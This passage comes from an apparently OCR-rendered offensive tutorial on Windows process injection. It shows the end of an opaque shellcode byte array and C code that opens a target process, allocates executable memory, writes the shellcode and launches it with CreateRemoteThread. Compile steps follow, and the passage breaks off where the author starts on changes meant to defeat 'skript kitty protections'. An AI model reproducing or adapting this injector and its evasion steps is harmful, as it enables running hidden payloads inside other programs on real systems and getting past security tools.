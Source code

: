 ```c  
		"\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
		"\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
		"\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
		"\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
		"\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
		"\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
		"\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
		"\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
		"\x3f\x66\x3b\x29\x90\xe1\xa5\xa5\xdd\xcf\x1f\x2b\x90\xe1\xec"
		"\x1d\xff\xf2\x3a\x7b\xd8\x68\x0e\x4a\xe9\xf5\x36\x1a\x50\x8b"
		"\xe1\x44\xff\xf2\x99\xd7\xf6\x26\xa8\x39\xea\xa3\x7a\x63\x1d"
		"\xa5\xc8\x05\x78\xa2\x13\x63\x19\x07\xba\x4d\xff\xf2\x3a\x7b"
		"\xd1\xb1\xa5\xe2\x7e\xe3\x2b\x62\x6f\x29\xa1\x94\x7f\xee\xf2"
		"\xea\xd1\x5b\x95\xd1\x81\x24\x84\xfe\xd8\xd0\x3e\x55\x41\x68"
		"\xf0\x25\xd1\x5b\xe4\x9a\xa3\xc2\x84\xfe\x2b\x11\x59\xbf\xe8"
		"\xe3\xc1\x8d\x05\x5c\x71\xe2\x6b\xea\xf8\xef\xb8\xdd\xea\x61"
		"\xb4\x22\x80\xcb\xe5\xe4\x57\x5a\xad\xd0\x14\x41\x90\xb8\xad"
		"\x94\x64\x5d\xae\x2b\x90\xe1\xec";

	HANDLE processHandle;
	HANDLE remoteThread;
	PVOID remoteBuffer;

	printf("Injecting to PID: %i", atoi(argv[1]));
	processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);

    return 0;
}
```  

Compile the code and run it...  

```  
gcc example-1.c -o example-1.exe
```  

**Notice anything?**  

## W teh F Tim, teh codes do3sn't works.  

**Yeah, we need to make a few changes to defeat teh Skript kitty protections...**  

**Change the lines **

```c  
#include "stdafx.h"
```  
